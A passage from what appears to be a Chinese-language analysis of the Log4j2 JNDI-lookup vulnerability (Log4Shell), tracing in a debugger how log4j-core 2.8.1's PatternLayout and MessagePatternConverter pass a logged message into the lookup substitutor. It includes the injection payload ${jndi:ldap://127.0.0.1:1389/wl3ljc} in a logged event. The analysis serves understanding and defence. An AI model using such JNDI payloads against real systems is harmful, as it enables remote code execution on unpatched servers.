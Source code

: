 controls[0]为：  
  
```
org.apache.logging.log4j.core.config.AppenderControl@204bf81b[appender=DefaultConsole-2, appenderName=DefaultConsole-2, level=null, intLevel=2147483647, recursive=java.lang.ThreadLocal@79f6b95f, filter=null]，
```  
  
主要完成时间的格式化。调用方法：  
```
org.apache.logging.log4j.core.pattern.DatePatternConverter$CachedTime@2b0e33dc
```  
  
具体位置：  
```
C:\Users\HOME.m2\repository\org\apache\logging\log4j\log4j-core\2.8.1\log4j-core-2.8.1-sources.jar!\org\apache\logging\log4j\core\layout\PatternLayout.java
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GQgl4jgSlt4PqaCJvBBZmun00YN82fWfOkGyo0YoKoYkb6icW3r0UAqQ/640?wx_fmt=png "")  
  
event 为  
```
Logger=com.kk.log4j2_rce.controller.UserController Level=ERROR Message=${jndi:ldap://127.0.0.1:1389/wl3ljc}；
```  
  
当 i=8时，formatters[8]等于  
```
org.apache.logging.log4j.core.pattern.PatternFormatter@4c0f3151[converter=org.apache.logging.log4j.core.pattern.MessagePatternConverter@bbe10d7, field=org.apache.logging.log4j.core.pattern.FormattingInfo@28ad1cd6[leftAlign=false, maxLength=2147483647, minLength=0, leftTruncate=true]]；
```  
  
主要对输入内容Message字段进行格式化；  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GoyQ9ibAacNCVdaHQTibML2mk5jibI6Z6lbYHarP45dyHYvuYEib8OBY2gg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GU1eTdqfwOu8ZwU2PgTNhI3lxNZMf8Zj9HDqicqqRcJqts0Y1ff4kgYg/640?wx_fmt=png "")  
  
workingBuilder执行结果为  
```
11:53:33.848 [http-nio-8080-exec-1] ERROR com.kk.log4j2_rce.controller.UserController - ${jndi:ldap://127.0.0.1:1389/wl3ljc}
```  
  
位置：  
```
C:\Users\HOME.m2\repository\org\apache\logging\log4j\log4j-core\2.8.1\log4j-core-2.8.1-sources.jar!\org\apache\logging\log4j\core\layout\PatternLayout.java
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JW9pA2BicFSOAIgZficxjicF7GPuhmCE0cM03UTUcL6Pq0DibRaZFNKX5l1N5hKQ539NvW7aJhrAu2oAA/640?wx_fmt=png "")  
  
代码：  
```
if (config != null && !noLookups) {
for (int i = offset; i < workingBuilder.length() - 1; i++) {
if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
final String value = workingBuilder.substring(offset, workingBuilder.length());
workingBuilder.setLength(offset);
workingBuilder.append(config.getStrSubstitutor().replace(event, value));
}
}
}
```  
  